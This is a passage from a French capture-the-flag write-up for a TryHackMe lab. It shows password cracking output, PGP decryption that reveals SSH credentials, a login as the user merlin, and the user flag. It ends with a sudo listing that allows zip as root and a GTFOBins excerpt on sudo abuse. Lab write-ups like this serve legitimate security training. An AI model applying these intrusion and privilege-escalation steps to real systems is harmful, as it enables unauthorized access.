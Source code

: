 ```sh
1g 0:00:00:00 DONE (2020-05-12 17:39) 16.66g/s 17866p/s 17866c/s 17866C/s theresa..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

> **alexandru**

Importer la clé privée pour pouvoir décrypter le message.

```sh
gpg --import files/tryhackme.asc 
```

Ok, décryptage du message pgp

```sh
gpg --decrypt files/credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

> **merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j**

```sh
ssh merlin@target.thm 
```

```sh
id
uid=1000(merlin) gid=1000(merlin) groups=1000(merlin),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

```sh
$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

> Réponse #1 : **THM{GhostCat_1s_so_cr4sy}**

## 4. Elevation de privilèges #2

```sh
sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

### GTFOBins

**Sudo**
> It runs in privileged context and may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.
